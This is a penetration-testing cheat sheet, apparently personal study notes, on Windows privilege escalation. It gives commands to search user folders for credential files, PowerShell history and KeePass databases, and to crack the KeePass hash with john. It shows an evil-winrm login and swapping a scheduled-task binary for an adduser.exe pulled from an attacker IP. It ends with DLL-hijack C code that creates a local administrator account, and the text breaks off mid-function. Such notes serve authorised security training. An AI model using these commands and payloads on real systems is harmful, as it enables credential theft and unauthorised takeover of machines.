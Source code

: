 Well Known SIDs for PrivEsc (User RID users starts at 1000, eg 1001 is 2nd user)
```
S-1-0-0                       Nobody        
S-1-1-0	                      Everybody
S-1-5-11                      Authenticated Users
S-1-5-18                      Local System
S-1-5-domainidentifier-500    Administrator
```
### Find Credentials
Try each of these steps ***for each user you get access to***
- Cleartext files: `Get-ChildItem -Path C:\Users\username -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue`
- Powershell history: `get-history` or `(Get-PSReadlineOption).HistorySavePath`
	- "Enter-PSSession", copy/paste the commands into terminal again.
- Keepass: `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue` 
	- `keepass2john Database.kdbx > keepass.hash` 
	- Remove `Database` from start of `keepass.hash` then `john keepass.hash`
- XAMPP: `Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue`
### Evil-WinRM - Creates Powershell Remoting Session
- Login: `evil-winrm -i 192.168.xx.xxx -u user -p "password\$\!"` (escape special characters: `"password$!"` = `"password\$\!"`)
## Using Scheduled Tasks
- Find scheduled tasks: `schtasks /query /fo LIST /v` 
	- Inspect `Author`, `Taskname`, `Task To Run`, and `Next Run Time`
	- Find regularly scheduled task (every minute) in a folder you can change
	- Move original to safe space: `move .\Pictures\BackendCacheCleanup.exe BackendCacheCleanup.exe.bak`
	- Pull `adduser.exe` in with iwr: `iwr -uri http://192.168.xx.xxx/adduser.exe -outfile C:\target\path\scheduledtask.exe`
- `C:\Users\moss\Searches\VoiceActivation.exe`
### Services
- Find running processes: `Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}`
- Start Process monitor and filter for target process 
	- Use `restart-servce servicename` if nothing is listed
	- Search for DLLs with;
		- Operation `CreateFile` 
		- Details `NAME NOT FOUND` 
		- With path to a folder you control (see `$env:path` for paths)
- Create a DLL with that name (eg. `mousepad myDLL.cpp`) 
```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user john password123! /add");
  	    i = system ("net localgroup administrators john /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
```